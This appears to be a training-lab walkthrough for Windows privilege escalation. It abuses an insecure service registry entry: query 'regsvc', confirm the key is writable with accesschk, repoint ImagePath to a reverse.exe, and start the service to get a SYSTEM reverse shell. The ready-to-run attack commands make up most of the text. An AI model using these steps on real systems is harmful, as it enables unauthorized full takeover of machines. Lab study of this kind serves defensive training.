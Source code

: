 
1. Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

```
sc qc regsvc
```

2. Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

3. Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start regsvc
```